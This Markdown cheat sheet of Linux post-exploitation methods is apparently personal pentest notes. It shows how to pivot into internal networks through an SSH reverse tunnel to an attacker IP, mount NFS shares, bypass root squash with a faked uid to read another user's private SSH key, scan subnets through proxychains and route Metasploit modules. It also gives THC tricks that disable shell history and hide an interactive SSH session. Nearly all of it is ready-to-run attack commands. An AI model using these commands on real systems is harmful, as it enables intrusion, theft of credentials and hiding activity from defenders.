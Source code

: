 # Linux Post Methods

## NFS Proxy Mount

tags: nfs, proxy, proxychains, mount, reverse tunnle, ssh

### Mount internal NFS share through pivot

After compromising a host as a low-priv user, if the system has access to local NFS shares, the shares can be mounted via a proxy. One method is to create a SSH proxy and mount the NFS share on the remote attack box. In the easiest of cases, the below is all that is required.

```
# victim
ssh -R 2049:$target_nfs_ip:2049 proxyusr@$atk_ip
# attacker
mount -t nfs -o port=2049 localhost:/share /mnt
```

As NFS uses multiple ports for protocol communication, and can make use of TCP or UDP, if the mount command fails, it is likely due to the `mountport` being unknown on the attacking system. This can be resolved by feeding the mount command the port manually. Run the following on the victim system to identify the port. 

```
rpcinfo -p $victim_nfs
```

Where the `mountd` port is the `mountport`, it can be fed to the mount command.

```
mount -t nfs -o port=2049,mountport=1234 localhost:/share /mnt
```

One may need to set the `-o proto=tcp` to ensure TCP is used. Or, the  NFS version may need to be set manually, such as `-o vers=3` or `-o vers=4`.

### Rootsquash / Squashfs Bypass

Some versions of NFS can be configured so that even after a proxy mount, as the root user on the attacking system, not all files can be accessed. This is due to a root squash. One way to bypass this protection is to create a local user with a matching `uid`. 

For example, after mounting the `nfs:/home` directory locally, trying to reach the user folder for `jane` as the local root user does not work.

On the victim system, run:

`id -u jane`

Collect the `uid` of jane. On the attacking system, run:

```
useradd --uid 3755
su jane
cat /mnt/jane/.ssh/id_rsa
```

## Pivoting Methods

### Local Port Forwarding
* `ssh <gateway> -L <local port to listen>:<remote host>:<remote port>`

### Remote Port Forwarding
* `ssh <gateway> -R <remote port to bind>:<local host>:<local port>`

### Dynamic Port Forwarding
* `ssh -D <local proxy port> -p <remote port> <target>`

### Proxychains
* First create a reverse tunnel from victim to attacker
    * `ssh -f -N -R 2222:127.0.0.1:22 root@208.68.234.100`
* Create dynamic application-level port forwarding on `8080`
    * `ssh -f -N -D 127.0.0.1:8080 -p 2222 hax0r@127.0.0.1`
* Configure proxychains to use port `8080` on attacking machine since the SSH
    process listening on that port will act as a SOCKS server
    * `proxychains nmap --top-ports=20 -sT -Pn 172.16.40.0/24`

### metasploit
* Add route to session
    * `route add 192.168.50.0 255.255.255.0 1`
* Setup proxy
    * `use auxiliary/server/socks4a`
    * `run`
* Select module (must be proxy aware)
    * `use auxiliary/scanner/ssh/ssh_login`
    * `set Proxies socks4:127.0.0.1:1050`

## THC

Nabbed from [The Hackers Choice](https://github.com/hackerschoice/thc-tips-tricks-hacks-cheat-sheet)

* Hide Commands

```
$ export HISTFILE=/dev/null
```

* Commit Suicide 

```
#alias exit='kill -9 $$'```
```

* Commands starting with a space will not get logged to history

```
$  id
```

* Almost invisible SSH

```
$ ssh -o UserKnownHostsFile=/dev/null -T user@server.org "bash -i"
```
